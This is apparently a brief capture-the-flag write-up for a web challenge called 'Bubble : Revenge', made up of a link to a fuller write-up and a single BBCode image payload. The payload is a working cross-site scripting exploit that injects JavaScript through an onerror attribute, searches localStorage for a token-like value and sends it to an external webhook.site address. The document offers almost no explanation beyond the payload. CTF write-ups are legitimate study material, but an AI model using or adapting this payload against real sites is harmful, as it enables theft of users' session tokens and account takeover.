# Writeup 1

https://github.com/S450R1/kaspersky-ctf-writeups/tree/main/web/bubble-revenge


# Writeup 2

Bubble : Revenge
```
[img width="1 onerror=try{let/**/j='';for(let/**/i=0;i<localStorage.length;i++){let/**/v=localStorage.getItem(localStorage.key(i));console.log(v);if(v&&v.includes('ey')){j=v;break}}if(!j){}else{(new/**/Image).src='https://webhook.site/39a15901-608a-4dbf-b46b-8b49d6b97278?d='+encodeURIComponent(j)}}catch(e){console.log(e);}"]x[/img]
```
